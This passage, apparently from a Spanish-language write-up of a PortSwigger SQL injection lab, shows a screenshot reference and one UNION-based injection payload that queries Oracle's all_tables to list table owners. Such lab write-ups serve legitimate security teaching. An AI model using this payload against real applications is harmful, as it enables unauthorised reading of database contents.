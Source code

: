 ![](/assets/img/ps-writeup-sqli/ps-lab6_4.png)

La idea con la siguiente query, es intentar obtener información sobre los propietarios de las tablas.

```sql
' union select owner,NULL from all_tables--
```
